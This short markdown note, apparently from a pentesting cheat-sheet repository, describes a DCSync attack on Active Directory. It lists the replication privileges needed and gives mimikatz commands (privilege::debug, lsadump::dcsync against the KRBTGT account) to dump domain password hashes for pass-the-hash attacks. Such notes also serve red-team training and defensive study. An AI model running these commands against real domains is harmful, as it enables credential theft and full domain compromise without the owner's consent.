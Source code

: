 ### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

### Privileges: Replicate Directory Changes, Replicate Directory Changes All

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT
